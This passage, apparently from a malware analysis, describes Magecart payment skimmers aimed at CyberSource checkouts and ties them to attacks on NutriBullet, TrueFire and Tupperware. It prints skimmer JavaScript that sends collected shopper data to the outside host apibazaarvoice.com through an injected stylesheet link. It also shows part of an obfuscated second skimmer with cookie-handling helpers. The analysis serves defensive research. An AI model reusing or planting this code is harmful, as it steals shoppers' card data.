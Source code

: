   ```js
       var infos={...array_storage,...array_Data};
       var link_obj=document["createElement"]("link");
       link_obj["href"]="https://apibazaarvoice.com/stylesheet.css?timestamp="+prepare_req(JSON["stringify"](prepare_header(infos)));
       link_obj["rel"]="stylesheet";
       link_obj["type"]="text/css";
       document["body"]["append"](link_obj);
       localStorage['setItem'](success_cart,Date["now"]()["toString"]());
       localStorage["removeItem"]('wc_info');
      }
     }
    },0x12c);
   }
  },0x3e8);
}
```

<h6>It isn't due to magecart developed skimmer for the cybersource that the group reduce theirs operations on the others ways, this only to considerate as opportunity to do additional business for the group. This version content not a tag like the others versions of magecart as code operation. This only beginning to March 2020 that the group have beginning to usurp cybersource while the attacks of NutriBullet,TrueFire and Tupperware (during COVID-19 event). The pattern used is teh same that this event too.</h6>

<h6>The second skimmer of magecart found is more like the older version with the some improvements, this still uses arrays for the obfuscation but use only integer values for getting the index and so the values. As previously explained, this use ReadyState for know if the page is correctly loaded and write cookie write the id and infos for the victim.</h6>

 ```js
var _0xb22e=["\x72\x65\x61\x64\x79\x53\x74\x61\x74\x65", [...] ,"\x73\x72\x63"];
function docReady(timer)
{
    if(document["readyState"]=== "complete"|| document["readyState"] === "interactive"){setTimeout(timer,2000)}
    else {document["addEventListener"]("DOMContentLoaded",timer)}
}
docReady(function()
{
    String["prototype"]["hexEncode"]= function()
    {
        var id,i;
        var r="";
        for(i= 0;i< this["length"];i++)
        {
            id= this["charCodeAt"](i).toString(16);
            r+= ("000"+ id)["slice"](-4);
        }
        return r;
    }
function Push_Data(v)
{
    var c="; "+ document["cookie"];
    var res=c["split"]("; "+ v+ "=");
    if(res["length"]== 2){return res["pop"]()["split"](";")["shift"]()}
}
function Push_Cookie(v){document["cookie"]= v+ "=; expires=Thu, 01 Jan 1970 00:00:01 GMT;"}
 ```
